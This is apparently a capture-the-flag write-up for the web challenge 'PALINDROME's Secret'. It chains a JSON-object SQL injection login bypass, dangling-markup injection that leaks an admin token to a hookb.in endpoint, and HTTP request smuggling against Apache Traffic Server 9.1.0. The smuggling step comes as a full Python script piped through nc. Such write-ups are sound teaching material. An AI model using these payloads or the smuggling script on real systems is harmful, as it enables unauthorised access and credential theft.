








## PALINDROME's Secret

We are given a website and its source code. There is a login page.

This web application requires 3 exploits to be able to retrieve the flag. 
1. SQL injection (not your normal SQL payload)
1. HTTP Request Smuggling (damn cool, never learnt before)
1. Cross-Site Scripting (sort of, but it is HTML Injection)



```js
const postLoginHandler = async (req, res) => {
    const { email, password } = req.body
    if (!email || !password)
        return res.status(400).send({ message: 'Missing email or password' })

    const rows = await query(`SELECT * FROM users WHERE email = ? AND password = ?`, [email, password])
    if (rows.length === 0)
        return res.status(401).send({ message: 'Invalid email or password' })

    req.session.userId = rows[0].id
    return res.status(200).send({ message: "Success" })
}
```

This is the login handler. We can use the exploit [here](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4) to perform sql injection and obtain a login token.

```json
{
    "email":{
        "email": 1
    },
    "password":{
        "password": 1
    }
}
```


We use burpsuite to intercept the request, change the json object that is POST-ed and then we can login into the portal!



The only place the admin token is present is in the middleware. It seems like we need the connection to originate from localhost. Probably means we need to find some place to conduct an SSRF attack.

```js
const authenticationMiddleware = async (req, res, next) => {
    if (req.session.userId) {
        if (req.ip === '127.0.0.1')
            req.session.token = process.env.ADMIN_TOKEN 

        next()
    }
    else 
        return res.redirect('/login')
}
```

The place with the highest chance of SSRF looks like the `report-issue` feature, where we can input an URL to the server to scan. However to get to the `do-report` feature, we are blocked by the proxy. The `do-report` path is mapped to `forbidden`, instead of `do-report`.

```
map             /login          http://app:8000/login
map             /index          http://app:8000/index
map             /token          http://app:8000/token
map             /verify         http://app:8000/verify
map             /report-issue   http://app:8000/report-issue
map             /static         http://app:8000/static
map             /do-report      http://app:8000/forbidden
regex_redirect  http://(.*)/    http://$1/index
```

It seems like the proxy used is `Trafficserver 9.1.0`. This seems to be an old version of Apache Traffic Server.

```
RUN curl -L https://archive.apache.org/dist/trafficserver/trafficserver-9.1.0.tar.bz2 > ats.tar.bz2 && \
    tar xf ats.tar.bz2 && \
    cd trafficserver-9.1.0 && \
    ./configure --prefix=/opt/ts && \
    make && \
    make install
```

I was quite sure that it was HTTP request smuggling since the `remap.config` is looks properly configured and the only other way to `/do-report` is through smuggling. I made a detour to think about the final step first. 

Even if we can make a request to `/do-report`, what URL should we provide it? My first idea was naive. I tried to host a web server which returns javascript to make the puppeteer visit `https://localhost:8000/token` and then return the html response. Well, it failed, because of, CORS. A browser doesn't let you make requests to servers that don't allow CORS.

Inside `main.js` we can see this:
```js
res.setHeader(
        'Cross-Origin-Opener-Policy',
        'same-origin'
    )
```

This is the example payload in the URL.
```html
<script>
  let req = new XMLHttpRequest();
  req.open("GET", "http://localost:8000/index");
  req.onreadystatechange = function () {
    if (req.readyState === 4) {
      const req2 = new XMLHttpRequest();
      req2.open("POST", "https://hookb.in/8PVJYNKQqEUpVYopj8VX", true);
      req2.setRequestHeader("Content-Type", "application/json");
      req2.send(JSON.stringify({"response": req.status }));
    }
  };
  req.setRequestHeader("Content-Type", "application/json");
  req.responseType = "json";
  req.send(JSON.stringify({ "username" : "yolo" }));
  req.send();
</script>
```

Well then the only other way is to really make puppeteer, retrieve the token somewhere inside `localhost:8000` and then return us the token. My first thought was something like reflected XSS, but there is no fields that allow to do so. Persistent XSS was possible though. Inside `/token`, you can input **any** username you want, and then the token generated can be used as XSS inside `/verify?token=...`. It is now clear where to steal the admin token, the admin token will be revealed inside `http://localhost:8000/verify?token=...` right behind the `!{username}` tags.

```pug
            | This token belongs to !{username}.
            | If !{username} asks for your token, you can give them this token: #{token}.
```

My first naive idea was to insert `<script>` tags.



Well, nothing worked. Let's check the `Content-Security-Policy`. Inside `main.js`:

```js
    res.setHeader(
        'Content-Security-Policy',
        "default-src 'self'; img-src data: *; object-src 'none'; base-uri 'none'; frame-ancestors 'none'"
    )
```

It seems like we won't be able to load scripts that are not from the server itself. The only thing we are able to inject will be `img src` tags. Let's try to craft a `img` tag payload. The only one that was able to succeed was `` will mean that we can steal some text from behind where `username` was rendered. 



Using `<img src="https://hookb.in/6J1enM3l90ToO0ro3Px9?steal=`



Now back to the HTTP request smuggling. After some extensive googling, an [HTTP request smuggling exploit](https://hackerone.com/reports/1238099) for ATS 9.0.0 looks promising. I downloaded the `poc.zip` and then used `payload2.py` to craft my payload. I first used hookbin as the URL so that I can check if the HTTP request smuggling succeeded, this particular python payload was able to return a request to my hookbin endpoint.

```python
import sys

def h(n):
    return hex(n)[2:].encode()

payload = b"{\"url\": \"https://hookb.in/Lg3WWl6pPMi1lrp1aGn1\"}"
cookie = b"Cookie: connect.sid=s%3AU9-fwBPGCKnA9HEFOKwZnRwDoaMu9pzq.zDzhgdHfIrIYYtibgwtTPLAymXU9niSE0BvhDgpl6Yw"

smuggled = (
    b"POST /do-report HTTP/1.1\r\n" +
    b"Host: chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg:23627\r\n" +
    b"Content-Type: application/json" + b"\r\n" +
    b"Content-Length: " + str(len(payload)).encode() + b"\r\n" +
    cookie + b"\r\n" +
    b"\r\n" +
    payload + b"\r\n" +
    b"0\r\n\r\n"
)

smuggled_len = h(len(smuggled) - 7 + 5)

first_chunk_len = h(len(smuggled_len))

sys.stdout.buffer.write(
    b"GET /index HTTP/1.1\r\n" +
    b"Host: chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg:23627\r\n" +
    b"Transfer-Encoding: chunked\r\n" +
    cookie + b"\r\n" +
    b"\r\n" +
    first_chunk_len + b" \n" + b"x"*len(smuggled_len) + b"\r\n" +
    smuggled_len + b"\r\n" +
    b"0\r\n" +
    b"\r\n" +
    smuggled
)
```

`python payload2.py | nc 128.199.237.165 23627`

Now, all that is left is to put in the "XSS" payload into a token and then make puppeteer visit the URL. I replaced the URL in the `payload2.py` to `payload = b"{\"url\": \"http://localhost:8000/verify?token=TISC%7B2%3A2%3A3%3A9%3A7%3Ax%3An%3Ar%3A4%3Au%7D\"}"`. And we get the flag!



So let's run through the steps again.
1. First I used SQLi using json payloads to login into the console. 
1. Then I crafted a [HTTP Dangling Markup Injection](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) payload which allows us to steal the html text. The username is entered as the payload and the resulting token produced will be the URL that we want puppeteer to visit. 
1. Then I used HTTP request smuggling to make a request to `/do-report` so that it will visit the verify token page. Once puppeteer visits the URL, the dangling markup will be able to capture the token and return it to us.

